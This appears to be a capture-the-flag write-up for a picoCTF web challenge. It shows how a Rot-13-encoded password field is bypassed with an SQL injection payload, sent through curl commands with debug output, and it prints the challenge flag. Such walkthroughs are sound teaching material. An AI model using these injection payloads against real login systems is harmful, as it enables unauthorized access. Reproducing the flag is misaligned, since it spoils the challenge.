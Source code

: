 ## Challenge

### Description
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/`. Try to see if you can log in as admin!

### Hints
1- Seems like the password is encrypted.

## Resolution
This is an improved version of the previous "Irish-name-repo" challenges, so we know that the website is vulnerable to an SQL injection.
When we navigate to the login page we find a password text field.

![image](https://github.com/elomarii/ctf4day/assets/106914699/78ff3451-b440-42a0-99cc-1b06f04587b7)

We can try some inputs to see how the app will behave. When we inspect the POST request that carries the data, we find that two pieces of information are sent to the server.

![image](https://github.com/elomarii/ctf4day/assets/106914699/4ac792d9-0604-486f-b98a-9430e1bd61c3)

The `debug` value may expose how the server handles the request, thus, we provide a different value and see what will happen.

We can use `curl` utility and the following command to do so:
```
$ curl -X POST -d "password=abcd&debug=1" https://jupiter.challenges.picoctf.org/problem/54253/login.php

<pre>password: abcd
SQL query: SELECT * FROM admin where password = 'nopq'
</pre><h1>Login failed.</h1>
```

Notice that the password was encoded differently. One of the first ideas that comes to mind is that the encoding might be a Rot. It actually is, and we can use any online decoder to verify that a Rot-13 is used there.
All that's left to do is encode our injection and send it to the server.

- The payload: `pwd' or 1=1;#`
- The encoded payload: `cfj' be 1=1;#`
- Url encoded payload: `cfj%27%20be%201%3D1%3B%23`

```
$ curl -X POST -d "password=cfj%27%20be%201%3D1%3B%23&debug=1" https://jupiter.challenges.picoctf.org/problem/54253/login.php

<pre>password: cfj' be 1=1;#
SQL query: SELECT * FROM admin where password = 'psw' or 1=1;#'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
```

The flag: `picoCTF{3v3n_m0r3_SQL_7f5767f6}`
